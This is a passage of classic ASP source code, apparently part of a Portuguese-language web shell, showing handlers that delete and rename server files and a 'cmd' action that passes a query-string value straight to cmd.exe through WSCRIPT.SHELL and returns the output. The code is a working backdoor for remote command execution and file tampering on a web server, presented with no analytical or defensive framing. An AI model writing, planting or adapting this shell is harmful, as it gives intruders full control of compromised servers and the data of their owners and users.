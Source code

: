             Response.Write "&lt;SCRIPT LANGUAGE=""JavaScript""&gt;self.opener.document.location.reload();&lt;/SCRIPT&gt;"
            Response.Write "&lt;font face='arial' size='2'&gt;&lt;center&gt;&lt;br&gt;&lt;br&gt;File &lt;b&gt;" & caminho & "&lt;/b&gt; Deleted.&lt;br&gt;"
        End If
    Case "ren"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        If Trim(Request.QueryString("status")) &lt;&gt; "2" Then
            caminho = Replace(Trim(Request.QueryString("path")),"|","\")
            arquivo = showobj(caminho)
            Response.Write "&lt;br&gt;&lt;font face=""arial"" size=""2""&gt;&lt;b&gt;" & arquivo & "&lt;/b&gt;&lt;br&gt;" & _
                               "&lt;form action=""" & Request.ServerVariables("SCRIPT_NAME") & """ method=""get""&gt;" & _
                               "&lt;input type=""hidden"" name=""action"" value=""ren""&gt;" & _
                               "&lt;input type=""hidden"" name=""status"" value=""2""&gt;" & _
                               "&lt;input type=""hidden"" name=""path"" value=""" & Trim(Request.QueryString("path")) & """&gt;" & _
                               "New Name: &lt;input type=""text"" name=""newname""&gt;" & _
                               "&nbsp;&nbsp;&lt;input type=""submit"" value=""Submit""&gt;" & _
                               "&lt;/form&gt;"
        Else
            caminho = Replace(Trim(Request.QueryString("path")),"|","\")
            Set ObjFSO = CreateObject("Scripting.FileSystemObject")
            Set MyFile = ObjFSO.GetFile(caminho)
            destino = Left(caminho,InStrRev(caminho,"\")) & Trim(Request.QueryString("newname"))
            MyFile.Move (destino)
            If Err.Number = 0 Then
                Response.Write "&lt;font face='arial' size='2'&gt;&lt;center&gt;&lt;br&gt;&lt;br&gt;Arquivo: &lt;b&gt;" & caminho & "&lt;/b&gt;&lt;br&gt;renomeado para&lt;b&gt;: " & destino
                Response.Write "&lt;SCRIPT LANGUAGE=""JavaScript""&gt;self.opener.document.location.reload();&lt;/SCRIPT&gt;"
            End If    
        End If
    Case "error"
        Response.Write "&lt;center&gt;&lt;font face='arial' size='2' color='red'&gt; &lt;b&gt;C?DIGO CORROMPIDO&lt;BR&gt;CORRUPT CODE&lt;/font&gt;&lt;/center&gt;"
    Case "cmd"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        Set oScript = Server.CreateObject("WSCRIPT.SHELL") 
        Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") 
        Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") 
        szCMD = Request.QueryString(".CMD") 
        If (szCMD &lt;&gt; "") Then 
            szTempFile = "c:\" & oFileSys.GetTempName( ) 
            Call oScript.Run ("cmd.exe /c " & szCMD & " &gt; " & szTempFile, 0, True) 
            Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0) 
        End If 
        Response.Write "&lt;FORM action=""" & Request.ServerVariables("URL") & """ method=""GET""&gt;&lt;input type=""hidden"" name=""action"" value=""cmd""&gt;&lt;input type=text name="".CMD"" size=45 value=""" & szCMD & """&gt;&lt;input type=submit value=""Run""&gt;&lt;/FORM&gt;&lt;br&gt;&lt;br&gt; "
        If (IsObject(oFile)) Then 
            On Error Resume Next 
            Response.Write "&lt;font face=""arial""&gt;"
            Response.Write Replace(Replace(Server.HTMLEncode(oFile.ReadAll),VbCrLf,"&lt;br&gt;")," ","&nbsp;")
            oFile.Close 
            Call oFileSys.DeleteFile(szTempFile, True) 
        End If 
    Case "info"
        checa = checking(cprthtml,keydec)
        Call hdr()